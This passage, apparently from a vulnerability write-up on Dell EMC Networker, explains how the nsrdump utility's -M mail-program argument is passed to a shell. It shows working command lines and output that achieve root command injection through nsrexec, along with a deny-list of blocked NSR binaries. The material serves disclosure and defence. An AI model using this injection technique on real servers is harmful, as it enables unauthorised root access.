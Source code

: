 And a custom deny-list blocks execution of the following NSR binaries, which can be considered dangerous for Networker's operations:

- nsradmin
- nsrexecd
- nsraddadmin
- nsr_shutdown
- nsrfile
- recover
- dp_recover

We therefore started looking for vulnerabilities affecting the allowed binaries themselves.

##### Finding the right candidate: nsrdump

One command that caught our eye is **nsrdump**. There is no manual entry for nsrdump, but the help output is provided below:

```
nsrdump -h
usage: nsrdump [-V | [[-efnx?] [-D debug_level] [-M mail_program] [-a skip_attr]
	[-r skip_resource] [-m email_address] [-o output_file] [-s sender_address]]
```

nsrdump is a utility that dumps the Dell EMC Networker Server configuration to stdout. An interesting aspect of that utility is that the dumped information can be sent out to an email address (`-m email_address`). For the email to be sent out, two other parameters must be set explicitly: the output file (`-o output_file`) and the mail program (`-M mail_program`).

One could, for example, provide sendmail as a mail program:

```
export RCMD="nsrdump -m root@localhost -o test -M sendmail"
nsrexec -c 127.0.0.1
89477 1613727512 5 1 2 1438164800 16224 0 networker-server nsrdump SYSTEM critical 23 error
sending mail: %s. 1 0 108 sendmail -s "Report Home 1.0 networker-server1606991028192168121238"
root@localhost < "/nsr/applogs/rh/test"
```

And nsrdump would launch a subprocess with command line ("sh -c sendmail ..."):

```
[pid 16224] execve("/usr/sbin/nsrdump", ["/usr/sbin/nsrdump", "-m", "root@localhost", "-o",
"test", "-M", "sendmail"], 0x7faa70014470 /* 9 vars */) = 0
[pid 16231] execve("/bin/sh", ["sh", "-c", "sendmail -s \"Report Home 1.0 net"...], 
0x7ffec9638e18 /* 9 vars */) = 0
```

The nsrdump binary accepts any input for the mail program parameter, which leads to arbitrary command injection. In the examples below, we demonstrate two ways of calling `id`:


```
[root@networker-server /]# export RCMD="nsrdump -m root@localhost -o test -M 'id;'"
[root@networker-server /]# nsrexec -c 127.0.0.1
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh: -s: command not found
89477 1613727665 5 1 2 848533312 16405 0 networker-server nsrdump SYSTEM critical 23 error
sending mail: %s. 1 0 103 id; -s "Report Home 1.0 networker-server1606991028192168121238"
root@localhost < "/nsr/applogs/rh/test"
```
